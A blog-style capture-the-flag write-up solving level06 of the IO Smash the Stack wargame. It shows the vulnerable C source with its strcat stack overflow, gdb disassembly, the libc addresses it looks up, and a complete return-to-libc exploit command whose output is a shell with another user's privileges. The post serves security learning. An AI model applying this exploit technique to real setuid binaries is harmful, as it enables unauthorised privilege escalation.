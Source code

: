 ```yaml
---
author: alvaro
comments: true
layout: post
title: Level 06 I/O Smash the Stack
categories:
- Archive
tags:
- security
---
```


Those days I have been playing a little bit with [IO Smash the Stack](http://io.smashthestack.org/). By now I am in the level 8.

Today I will explain how I resolved the level06 and the process that I followed. In this level we have the code and it is more large than the previous.

```C
//written by bla
//inspired by nnp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

enum{
LANG_ENGLISH,
LANG_FRANCAIS,
LANG_DEUTSCH,
};

int language = LANG_ENGLISH;

struct UserRecord{
	char name[40];
	char password[32];
	int id;
};

void greetuser(struct UserRecord user){
	char greeting[64];
	switch(language){
		case LANG_ENGLISH:
			strcpy(greeting, "Hi "); break;
		case LANG_FRANCAIS:
			strcpy(greeting, "Bienvenue "); break;
		case LANG_DEUTSCH:
			strcpy(greeting, "Willkommen "); break;
	}
	strcat(greeting, user.name);
	printf("%s\n", greeting);
}

int main(int argc, char **argv, char **env){
	if(argc != 3) {
		printf("USAGE: %s [name] [password]\n", argv[0]);
		return 1;
	}

	struct UserRecord user = {0};
	strncpy(user.name, argv[1], sizeof(user.name));
	strncpy(user.password, argv[2], sizeof(user.password));

	char *envlang = getenv("LANG");
	if(envlang)
		if(!memcmp(envlang, "fr", 2))
			language = LANG_FRANCAIS;
		else if(!memcmp(envlang, "de", 2))
			language = LANG_DEUTSCH;

	greetuser(user);
}
```

What this code does is easy to understand and also it is easy to spot where the vulnerability resides. Is in the function `strcat`. If we go to the `man page`.

>The  strcat() function appends the src string to the dest string, overwriting the terminating null byte ('\0') at the end of dest, and then adds a terminating null byte.  The strings may not overlap, and the dest string must have enough space for the result.  If dest is not large enough, program behavior is unpredictable; buffer overruns  are  a  favorite  avenue  for  attacking secure programs.

>The strncat() function is similar, except that

>    *  it will use at most n bytes from src; and
> 	 *  src does not need to be null-terminated if it contains n or more bytes.

Basically strcat will append the src string until we get the `\0`. How we want to overflow the stack of greeting in the function `greetuser` we should look how the stack looks like when this function is called. To find out we will use `gdb`.

```bash
gdb-peda$ disas greetuser
Dump of assembler code for function greetuser:
   0x0804851c <+0>:	push   ebp
   0x0804851d <+1>:	mov    ebp,esp
   0x0804851f <+3>:	sub    esp,0x58
   0x08048522 <+6>:	mov    eax,ds:0x8049964
   0x08048527 <+11>:	cmp    eax,0x1
   0x0804852a <+14>:	je     0x8048540 <greetuser+36>
   0x0804852c <+16>:	cmp    eax,0x2
   0x0804852f <+19>:	je     0x804855c <greetuser+64>
   0x08048531 <+21>:	test   eax,eax
   0x08048533 <+23>:	jne    0x8048574 <greetuser+88>
   0x08048535 <+25>:	lea    eax,[ebp-0x48]
   0x08048538 <+28>:	mov    DWORD PTR [eax],0x206948
   0x0804853e <+34>:	jmp    0x8048574 <greetuser+88>
   0x08048540 <+36>:	lea    eax,[ebp-0x48]
   0x08048543 <+39>:	mov    DWORD PTR [eax],0x6e656942
   0x08048549 <+45>:	mov    DWORD PTR [eax+0x4],0x756e6576
   0x08048550 <+52>:	mov    WORD PTR [eax+0x8],0x2065
   0x08048556 <+58>:	mov    BYTE PTR [eax+0xa],0x0
   0x0804855a <+62>:	jmp    0x8048574 <greetuser+88>
   0x0804855c <+64>:	lea    eax,[ebp-0x48]
   0x0804855f <+67>:	mov    DWORD PTR [eax],0x6c6c6957
   0x08048565 <+73>:	mov    DWORD PTR [eax+0x4],0x6d6d6f6b
   0x0804856c <+80>:	mov    DWORD PTR [eax+0x8],0x206e65
   0x08048573 <+87>:	nop
   0x08048574 <+88>:	lea    eax,[ebp+0x8]
   0x08048577 <+91>:	mov    DWORD PTR [esp+0x4],eax
   0x0804857b <+95>:	lea    eax,[ebp-0x48]
   0x0804857e <+98>:	mov    DWORD PTR [esp],eax
   0x08048581 <+101>:	call   0x80483d0 <strcat@plt>
   0x08048586 <+106>:	lea    eax,[ebp-0x48]
   0x08048589 <+109>:	mov    DWORD PTR [esp],eax
   0x0804858c <+112>:	call   0x80483f0 <puts@plt>
   0x08048591 <+117>:	leave
   0x08048592 <+118>:	ret
End of assembler dump.
gdb-peda$ b * 0x0804857e  ; Breakpoint before to call strcat
gdb-peda$ r AAAAAAAAAAAAAAAA BBBBBBBBBBBBBBB 
gdb-peda$ x/64xw $esp
```

![stackio6](/public/images/stackio6.png)

To exploit this we are going to use the technique [Return Into Lib C](http://insecure.org/sploits/linux.libc.return.lpr.sploit.html). What we have to do is overwrite the return address `0x080486af` with the system address and then build a fake stack such that when we resume the execution at the direction of system it sees a valid stack. It would be as simple as put the direction of exit followed by the direction of the string `/bin/sh`. All these directions can be uncovered with `gdb`.

```bash
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7ea9c30 <system>
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xb7e9d270 <exit>
gdb-peda$ searchmem /bin/sh
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xb7faafb4 ("/bin/sh")
``` 

So the beginning of the `argv[1]` must be the direction of `
exit` and then the direction of the string `/bin/sh` followed by as much data as needed until we reach the return address to overwrite it with the direction of system. To exploit it more easily is better use as language `FRANCAIS` or `DEUTSCH` since that will fill the `greeting` variable with more data. Since with the `english` version the `id` was initialize to `0` making the strcat function stopping when it reaches that value.


```bash
level6@io:/levels$ echo $LANG
en_GB.UTF-8
level6@io:/levels$ LANG=de_GB.UTF-8
level6@io:/levels$ echo $LANG
de_GB.UTF-8
```

And finally we get a fresh shell calling it as follows.

```bash
level6@io:/levels$ ./level06 `python -c 'print "\x70\xd2\xe9\xb7" + "\xb4\xaf\xfa\xb7" + "A"*32'` `python -c 'print "B"*25 + "\x30\x9c\xea\xb7"'`
Willkommen p�鷴��AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBB0��
sh-4.2$ id
uid=1006(level6) gid=1006(level6) euid=1007(level7) groups=1007(level7),1006(level6),1029(nosu)
sh-4.2$
```
{% include twitter_plug.html %}